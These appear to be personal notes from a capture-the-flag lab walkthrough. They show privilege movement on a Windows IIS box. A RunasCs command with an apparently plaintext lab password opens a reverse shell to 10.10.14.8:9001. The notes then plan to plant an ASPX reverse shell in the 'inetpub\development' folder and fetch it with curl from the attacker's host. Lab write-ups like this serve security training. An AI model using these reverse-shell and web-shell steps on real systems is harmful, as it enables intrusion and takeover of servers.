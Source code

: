 Try executing #RunAsCs 

`.\runascs.exe c.bum Tikkycoll_431012284 powershell.exe -r 10.10.14.8:9001 `

We got a powershell window as c.bum!

Going back into `inetpub\development` directory and confirming we have write access. 

![[Pasted image 20250115205430.png]]

We can put an ASPX reverse shell in here on the IIS server.

aspx shells go with iis. 

googling aspx reverse shell.

https://github.com/borjmz/aspx-reverse-shell

paste this into `rev.aspx` file on local host.

Change IP and port # 

![[Pasted image 20250115205808.png]]

Run curl from inetpub directory 

`curl http://10.10.14.8:8000/rev.aspx`
![[Pasted image 20250115205853.png]]
Got hostname is invalid error. 

![[Pasted image 20250115210037.png]]

